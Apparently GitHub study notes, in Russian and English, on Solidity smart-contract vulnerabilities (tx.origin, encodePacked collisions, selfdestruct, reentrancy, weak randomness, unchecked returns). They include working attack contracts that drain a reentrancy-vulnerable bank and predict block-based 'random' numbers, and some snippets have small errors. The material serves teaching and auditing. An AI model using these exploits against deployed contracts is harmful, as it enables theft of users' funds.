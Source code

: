 ## VULNERABLE TX.ORIGIN:  

```
// При вызове функции напрямую пользователем, msg.sender и tx.origin будут одинаковыми — это будет адрес пользователя.
contract Example {
    function checkSender() external view returns (address, address) {
        return (msg.sender, tx.origin);
    }
}

/*
В этом случае:
- msg.sender в контракте Example будет адресом контракта A.
- tx.origin в контракте Example будет адресом пользователя, который инициировал транзакцию.
*/
contract A {
    Example example;
    constructor(address _example) {
        example = Example(_example);
    }

    function callCheckSender() external view returns (address, address) {
        return example.checkSender();  // Вызов функции через другой контракт
    }
}

```

Когда пользователь вызывает контракт через другой контракт, tx.origin будет равен адресу пользователя, а msg.sender будет адресом контракта, который вызвал вашу функцию.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### VULNERABILITI IN ABI.ECNCODEPACKED():  

This function vulnerable to collision: https://docs.soliditylang.org/en/latest/abi-spec.html#non-standard-packed-mode  

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### VULNERABILITY IN SELFDESTRUCT():  

В смарт-контрактах функция **selfdestruct()** - это специальная функция, используемая в основном для прекращения работы контракта при определенных обстоятельствах и освобождения связанных с ним ресурсов.  

Основная цель функции **selfdestruct()** - позволить создателям контрактов уничтожить развернутый смарт-контракт.  

При срабатывании функции **selfdestruct()** смарт-контракт будет окончательно удален, а оставшиеся Ether, хранящиеся в контракте, будут отправлены на указанный целевой адрес. В то же время все данные и функции, связанные с контрактом (хранилище и код удалены из состояния), больше не будут доступны. Функция **selfdestruct()** может использоваться для отказа от контрактов, которые больше не используются, обновления версий контрактов или решения потенциальных проблем безопасности.  

Vulnerable code snippet: ```selfdestruct(payable(msg.sender));``` - после выполнения функции контракт будет уничтожен, а все срадства будут перечисленны на указанный адресс.  

Также, функция **selfdestruction()** может переводить средства без согласия цели. Именно из-за этой "принудительной передачи" функции **selfdestruction()** злоумышленники могут использовать ее, чтобы повлиять на нормальную функциональность целевого контракта. Например, если разработчики используют address(this).balance для извлечения баланса токенов в контракте, они могут быть уязвимы для атаки.

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### AUDIT METADATA:  

```solc --metadata [Contract.sol]```

Decode smart contract bytecode : https://playground.sourcify.dev/  

IPFS: https://gateway.pinata.cloud/ipfs/QmVQjAYYszSmEmYKWHusx8TwzF5vTYjCv8PUEJLXUfNjce

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### INTEGER UNDERFLOW AND OVERFLOW:  

https://metaschool.so/articles/integer-overflow-and-underflow-in-solidity  

#### REENTRANCY:  

Vulnerable Contract:  
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

contract EthBank {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external payable {
        (bool sent, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(sent, "failed to send ETH");
        balances[msg.sender] = 0; // Vulnerability here.
    }
}

```

Exploit code:  

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

contract EthBankExploit {
    IEthBank public bank;

    constructor(address _bank) {
        bank = IEthBank(_bank);
    }

    receive() external payable { // 
        if (address(bank).balance >= 1 ether) {
            bank.withdraw();
        }
    }

    function pwn() external payable {
        bank.deposit{value: 1 ether}();
        bank.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

#### INSECURE SOURCE OF RANDOMNESS:  

Vulnerable contract:  

```
contract RandomNumber {

    constructor public payable {}

    function guess(uint _guess) public {
        uint answer = uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
        if (_guess == answer) {
            (bool sent,) = msg.sender.call{value: 1 ether}("");
            require(sent, "Fail");
        }
    }
}
```

Attack contract:  

```
contract Attack {
    fallback() external payable {}

    function attack(RandomNumber randomNumber) {
        uint answer = uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
        randomNumber.guess(answer);
    }
}
```

Атакующий контракт, и уязвимый контракт работают в одном блоке, потому что вызов контракта-атакующего инициируется внешним пользователем, и все транзакции, вызванные в рамках этой операции, обрабатываются в контексте одного блока.  

**Эфир и обработка транзакций**:  

В Ethereum каждая транзакция включается в блок и выполняется в рамках его характеристик (например, blockhash, block.timestamp, block.number).
Если одна транзакция вызывает несколько контрактов (через вызовы call или delegatecall), все эти вызовы происходят в том же самом блоке, используя одну и ту же информацию о блоке.

**Контекст вызова**:  

Когда атакующий контракт вызывает уязвимый контракт через: ```randomNumber.guess(answer);```, оба контракта работают в рамках одной транзакции, обработанной майнером.
Таким образом, вызов block.timestamp и blockhash(block.number - 1) в атакующем контракте возвращает те же самые значения, что и в уязвимом контракте, потому что это одна и та же транзакция.  

**Ход выполнения атаки**:  

```
Атакующий разворачивает свой контракт (Attack) и вызывает его функцию attack, передавая адрес уязвимого контракта (RandomNumber).

Вызов функции attack создаёт транзакцию, которая попадает в пул транзакций майнеров и в конечном итоге включается в новый блок.

Когда транзакция обрабатывается:
    Внутри attack вычисляется "случайное" число с помощью keccak256 на основе blockhash(block.number - 1) и block.timestamp.
    Затем вызывается randomNumber.guess(answer), используя тот же контекст блока. Внутри guess повторно вычисляется то же самое значение keccak256, потому что входные данные (хэш блока и метка времени) остаются идентичными.

Уязвимый контракт считает, что _guess совпал с "случайным" числом, и отправляет 1 эфир атакующему.
```

#### UNCHECKED RETURN VALUE:

**Resource**: https://metana.io/blog/unchecked-return-values-hidden-threats-in-smart-contracts/  

Суть уязвимости в том, что после отправки транзацкии возвращаемое значение не проверяется. Транзакция не может выполнить откат до предыдущего состояния.
